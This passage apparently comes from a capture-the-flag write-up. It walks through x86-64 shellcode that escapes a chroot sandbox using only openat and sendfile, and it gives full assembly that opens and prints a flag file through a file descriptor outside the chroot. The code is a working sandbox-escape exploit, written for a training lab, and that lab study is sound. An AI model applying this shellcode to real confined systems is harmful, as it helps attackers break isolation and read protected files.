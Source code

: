 ```
	mov rax, 0x00
	syscall

	# Write syscall
	mov rdi, 1
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x01
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```

&nbsp;

## level 4
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "openat", "read", "write", "sendfile".

We could very well use the previous level's code but let's try something new.

The `sendfile` command is a combination of the `read` and `write` system calls. It's also more efficient as it does not require data to be transferred to and from user space.

It takes the following arguments:
```
ssize_t sendfile(int out_fd, int in_fd, off_t *_offset, size_t _count);
```
In our case the `out_fd` will be `1` for STDOUT.
```
# Sendfile syscall
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 0x28
syscall
```
Replace the `read` and `write` syscalls with the above code.

```
.global _start
.intel_syntax noprefix

_start:
	# Openat syscall
	mov rdi, 3
	lea rsi, [rip + flag]
	mov rdx, 0
	mov r10, 0
	mov rax, 0x101
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall
```